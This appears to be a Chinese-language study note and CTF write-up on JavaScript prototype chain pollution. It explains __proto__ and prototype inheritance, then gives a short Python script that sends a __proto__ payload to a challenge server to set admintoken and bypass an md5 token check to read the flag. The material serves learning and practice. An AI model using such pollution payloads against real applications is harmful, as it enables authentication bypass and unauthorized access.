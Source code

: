 ```yaml
---
title: 原型链污染
---
```


在先知社区看了一篇原型链污染的文章，学习了一下。

原型：

原型是function/函数对象（包括构造函数）的一个属性，它定义了函数构造出的对象的公共祖先。通过该函数构造出的对象，可以继承该原型的属性和方法。原型也是对象。

原型链：

原型链是javascript的实现的形式,递归继承原型对象的原型,原型链的顶端是Object的原型。



构造函数、原型和实例的关系：

每个构造函数都有一个原型对象，原型对象都包含一个指向构造函数的指针，而实例都包含一个指向原型对象的内部指针。那么假如我们让原型对象等于另一个类型的实例，结果会怎样？显然，此时的原型对象将包含一个指向另一个原型的指针，相应地，另一个原型中也包含着一个指向另一个构造函数的指针。假如另一个原型又是另一个类型的实例，那么上述关系依然成立。如此层层递进，就构成了实例与原型的链条。这就是所谓的原型链的基本概念。——摘自《javascript高级程序设计》

看着这些概念是很懵的。**看到文章里的这些解释还是会很懵，所以就在b站找了视频看**

还是直接看原型链的一些关系

看张图：![img](https://xzfile.aliyuncs.com/media/upload/picture/20200204170938-121dfaec-472e-1.png)

这里要去看`__proto__`和prototype

那这两个东西是什么呢？

1. `prototype`是一个类的属性，所有类对象在实例化的时候将会拥有`prototype`中的属性和方法

2. 一个对象的`__proto__`属性，指向这个对象所在的类的`prototype`属性

   

   

   这里person实例对象,Person.prototype是原型,原型通过`__proto__`访问原型对象,实例对象继承的就是原型及其原型对象的属性。

   继承的查找过程:

     调用对象属性时, 会查找属性，如果本身没有，则会去`__proto__`中查找，也就是构造函数的显式原型中查找，如果构造函数中也没有该属性，因为构造函数也是对象，也有`__proto__`，那么会去`__proto__`的显式原型中查找，一直到null(**很好说明了原型才是继承的基础**)

这一段我大概理解为：person是通过Person（）构造出来的，person即为对象，而对象的`__proto__`里储存着构造它的函数的prototype，而prototype保存着对应函数里有的相关属性，让后面的一直连接构成一条链，后面的就会继承前面的一些属性





上面大概了解估计就行了吧（其实我还是有点懵的）



再看看原型链污染吧

![image-20210424152733912](https://tcakalr.gitee.io/tc/image-20210424152733912.png)

上面这幅图可以看到一开始我们定义了个a.bar=1，然后我们通过给a.`__proto__`.bar赋值2，然后再创建一个空的b，发现b继承完后的bar值就是我们刚刚赋值的2.

这是因为前面我们修改了a的原型`a.__proto__.bar = 2`，而a是一个Object类的实例，所以实际上是修改了Object这个类，给这个类增加了一个属性bar，值为2。

后来，我们又用Object类创建了一个b对象`let b = {}`，b对象自然也有一个bar属性了

通过这个就造成了原型链污染





看道题吧

给了源码

粗略的看了一下，发现利用点

![image-20210505222400626](https://tcakalr.gitee.io/tc/image-20210505222400626.png)

要令admintoken和querytoken存在并且admintoken的md5等于querytoken

<img src="C:\Users\luorui\AppData\Roaming\Typora\typora-user-images\image-20210505230857604.png" alt="微信图片_20210505225304" style="zoom: 67%;" />

通过本地测试发现可以数组赋值然后覆盖上去

写脚本用提前准备的md5值进行写入

```
import requests
a = requests.post('http://47.98.234.232:28005/api',json={'row':'__proto__','col':'admintoken','data':'abc'})
a = requests.get('http://47.98.234.232:28005/admin?querytoken=900150983cd24fb0d6963f7d28e17f72')
print(a.text)
```

![image-20210505225752477](https://tcakalr.gitee.io/tc/image-20210505225752477.png)

读出flag。